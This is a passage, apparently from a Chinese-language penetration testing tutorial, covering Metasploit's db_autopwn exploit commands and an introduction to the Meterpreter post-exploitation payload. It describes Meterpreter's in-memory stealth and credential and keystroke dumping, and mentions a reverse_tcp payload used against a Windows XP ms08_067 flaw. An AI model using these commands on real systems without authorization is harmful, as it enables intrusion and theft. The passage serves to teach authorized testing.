 ```
msf> use db_autopwn
```

1.  使用以下命令列出匹配的利用：

```
msf> db_autopwn -p -t
```

1.  使用以下命令利用匹配的利用：

```
 msf> db_autopwn -p -t -e
```

# 后渗透

后渗透是渗透测试中的一个阶段，在这个阶段我们已经对目标系统有了有限（或完全）的访问权限，现在，我们想要搜索特定的文件、文件夹，转储用户凭据，远程捕获屏幕截图，从远程系统中转储按键，提升权限（如果需要），并尝试使我们的访问持久化。在本节中，我们将学习 meterpreter，它是一个以其功能丰富的后渗透能力而闻名的高级有效载荷。

# 什么是 meterpreter？

Meterpreter 是一个高级的可扩展有效载荷，它使用*内存* DLL 注入。它显著增加了 Metasploit 框架的后渗透能力。通过在分段套接字上通信，它提供了一个广泛的客户端端 Ruby API。Meterpreter 的一些显着特点如下：

+   **隐秘**：Meterpreter 完全驻留在受损系统的内存中，并且不会向磁盘写入任何内容。它不会产生任何新进程；它会将自身注入到受损进程中。它有能力轻松迁移到其他运行的进程。默认情况下，Meterpreter 通过加密通道进行通信。这在法医角度上对受损系统留下了有限的痕迹。

+   **可扩展**：功能可以在运行时添加，并直接通过网络加载。新功能可以添加到 Meterpreter 而无需重新构建它。`meterpreter`有效载荷运行无缝且非常快速。

下面的截图显示了我们通过利用我们的 Windows XP 目标系统上的`ms08_067_netapi`漏洞获得的`meterpreter`会话。

在使用漏洞之前，我们需要通过发出`use payload/windows/meterpreter/reverse_tcp`命令来配置 meterpreter 有效载荷，然后设置 LHOST 变量的值。

![](img/60d8c76a-0333-43c5-898f-f848a9c9ba56.jpg)
